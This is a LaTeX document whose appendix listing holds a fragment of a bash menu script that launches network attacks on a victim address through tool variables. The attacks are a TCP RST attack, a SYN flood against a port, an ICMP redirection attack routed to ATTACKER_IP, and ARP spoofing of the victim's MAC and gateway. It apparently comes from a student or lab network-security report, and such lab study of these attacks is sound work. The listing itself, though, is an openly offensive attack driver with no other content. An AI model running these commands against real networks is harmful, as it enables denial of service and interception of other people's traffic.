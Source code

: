 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac

\end{lstlisting}


\end{appendices}
\end{document}
